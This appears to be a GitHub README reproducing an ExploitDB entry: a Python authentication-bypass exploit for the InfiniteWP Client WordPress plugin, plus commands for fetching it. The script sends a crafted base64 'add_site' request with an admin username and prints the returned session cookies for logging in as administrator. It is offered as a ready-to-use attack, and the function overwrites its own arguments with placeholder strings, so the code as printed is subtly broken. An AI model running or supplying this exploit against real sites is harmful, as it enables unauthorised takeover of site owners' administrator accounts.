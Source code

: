 # Wordpress Plugin InfiniteWP Client 1.9.4.5 - Authentication Bypass

## Date: 2020-1-16
## Exploit Author: Raphael Karger
## Vendor Homepage: https://infinitewp.com/
## Version: InfiniteWP Client < 1.9.4.5
## EDB-ID: 47939
## ExploitDB https://www.exploit-db.com/exploits/47939

## How to install or find
### wget
```
wget https://raw.githubusercontent.com/lexrrr/EDB-ID-47939/main/edb_id_47939.py
```
### searchsploit
```
searchsploit 47939.py
```
### metasploit
```
use unix/webapp/wp_infinitewp_auth_bypass
```
## Source code:
### Change target and name! (Site && username)
```
import requests
import json
import argparse
import base64
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit(site, username):
    site = "# TARGET IP (EXAMPLE HTTP://111.111.111.111/)"
    username = "# ADMIN NAME"
    json_info = {"iwp_action":"add_site","params":{"username": username}}
    try:
        return requests.post(site, timeout=5, verify=False,
            headers={"User-Agent" : "raphaelrocks"},
            data="_IWP_JSON_PREFIX_{}".format(base64.b64encode(json.dumps(json_info).encode("utf-8")).decode("utf-8"))
        )
    except Exception as e:
        print("[-] HTTP Exploit Error: {}".format(e))
    return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-n", "--username", dest="username", help="Username of admin, default is admin", default="admin")
    parser.add_argument("-u", "--url", dest="url", help="Root URL of Site")
    args = parser.parse_args()
    site_exploit = exploit(args.url, args.username)
    if site_exploit and site_exploit.status_code == requests.codes.ok:
        cookie_string = "; ".join([str(x)+"="+str(y) for x,y in site_exploit.cookies.items()])
        if cookie_string:
            print("[+] Use Cookies to Login: \n{}".format(cookie_string))
            exit(0)
    print("[-] Exploit Failed")
```
